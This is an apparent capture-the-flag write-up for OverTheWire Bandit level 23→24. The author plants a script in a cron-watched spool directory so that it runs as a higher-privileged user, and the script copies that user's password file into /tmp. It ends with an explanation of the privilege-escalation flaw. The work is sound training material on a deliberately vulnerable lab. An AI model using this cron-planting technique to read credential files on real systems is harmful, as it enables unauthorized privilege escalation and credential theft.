



# Bandit Level 23 → Level 24

## Task

A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!
**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Commands Used

- `ls -la` — lists files and their permissions.
- `cat` — displays the contents of a file (also used to write into a file).
- `mkdir` — creates a new directory.
- `cd` — changes the current directory.
- `chmod` — changes file permissions.
- `touch` — creates an empty file.
- `cp` — copies files and directories.

## Command Breakdown

First, I inspected the cron jobs configuration:

```bash
ls -la /etc/cron.d/
```

I identified the configuration related to the next level:

```bash
cat /etc/cron.d/cronjob_bandit24
```

The output showed that the cron job executes `/usr/bin/cronjob_bandit24.sh` as the user `bandit24` every minute. Next, I inspected the script itself:

```bash
cat /usr/bin/cronjob_bandit24.sh
```



The script revealed that it changes its directory to `/var/spool/bandit24/foo`, executes any script found inside that belongs to `bandit23`, and then aggressively deletes them using `rm -rf`. 

Because my scripts would be deleted immediately and I couldn't write the output there, I created a safe workspace in the `/tmp` directory:

```bash
mkdir /tmp/denisflorinfolder
cd /tmp/denisflorinfolder
```



Inside my workspace, I created a shell script (`script.sh`) designed to read the password file and redirect its output to a file I own. I used `cat > script.sh` and wrote:

```bash
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/denisflorinfolder/parola.txt
```

To ensure the cron job could execute my script and write the output, I set the proper permissions. I created the destination file (`parola.txt`) in advance and granted full permissions (`777`) to both files:

```bash
chmod 777 script.sh
touch parola.txt
chmod 777 parola.txt
```

Finally, I copied my script into the directory monitored by the cron job:

```bash
cp script.sh /var/spool/bandit24/foo/
```

After waiting for about a minute for the cron job to execute, I checked my output file:

```bash
cat parola.txt
```



### Note about Privilege Escalation

This level demonstrates a classic **Privilege Escalation** vulnerability. The `cron` service runs with the full privileges of `bandit24`. Because it blindly executes any script placed in `/var/spool/bandit24/foo/` without validating its contents, a lower-privileged user (`bandit23`) can plant a malicious script. When `cron` executes it, the script successfully reads `/etc/bandit_pass/bandit24`—a file that `bandit23` normally has no permission to access.

## Password

<details>
<summary>Click to reveal</summary>

`[Pune Parola Aici]`

</details>
